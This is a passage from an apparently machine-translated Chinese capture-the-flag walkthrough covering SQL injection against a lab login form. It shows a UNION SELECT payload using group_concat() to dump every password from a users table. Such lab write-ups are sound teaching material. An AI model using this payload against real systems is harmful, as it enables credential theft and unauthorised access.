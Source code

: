 *******![](img/1d583613e383a6459528c1a2aba4846f.png)**************![](img/30438f4776a3ab91c3cbe842e0ac045c.png)*******

*******但是，前面的语句只会返回一个密码。 [group_concat()](https://sqlite.org/lang_aggfunc.html#groupconcat) 函数可以帮助实现同时转储所有密码的目标。*******

*******通过将以下代码插入用户名字段:*******

```
*****' UNION SELECT 1,group_concat(password) FROM users-- -*****
```

*******![](img/a6920612675818281abfccec0e618918.png)*******

*******嘣！我们拿到了**国旗*********

# *****任务 6:易受攻击的启动:被破坏的认证 3(盲目注入)*****
